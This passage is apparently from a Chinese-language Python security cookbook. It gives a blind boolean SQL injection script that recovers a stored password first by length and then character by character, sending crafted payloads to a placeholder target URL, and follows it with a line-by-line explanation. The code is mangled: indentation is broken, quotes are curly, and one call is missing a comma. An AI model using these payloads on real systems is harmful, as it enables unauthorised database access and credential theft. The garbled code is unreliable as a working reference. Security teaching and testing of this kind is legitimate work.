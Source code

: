```
    length = i
    break
  else:
    i = i+1

for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
      req = requests.post('<target url>', data=payload)
      if yes in req.text:
    answer.append(chr(asciivalue))
break
  else:
      asciivalue = asciivalue + 1
      pass
asciivalue = 0
print “Recovered String: “+ ''.join(answer)
```

## 它是如何工作的…

首先，用户必须识别只有在 SQLi 成功时才会出现的字符串。或者，可以修改脚本以响应缺少失败 SQLi 证据的情况。我们将此字符串作为一个`sys.argv`变量提供。我们还创建了两个迭代器，我们将在这个脚本中使用它们，并将它们设置为`1`，因为 MySQL 从`1`开始计数，而不是像失败的系统一样从`0`开始计数。我们还为将来的答案创建一个空列表，并指示用户脚本正在启动：

```
yes = sys.argv[1]

i = 1
asciivalue = 1
answer = []
print “Kicking off the attempt”
```

这里的有效负载基本上请求我们试图返回的密码的长度，并将其与将被迭代的值进行比较：

```
payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}
```

然后我们永远重复下一个循环，因为我们不知道密码有多长。我们在`POST`请求中将有效负载提交到目标 URL：

```
while True:
  req = requests.post('<target url>' data=payload)
```

每次检查我们最初设置的`yes`值是否存在于响应文本中，如果存在，则结束 while 循环，将当前值`i`设置为参数长度。`break`命令是结束`while`循环的部分：

```
lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
```
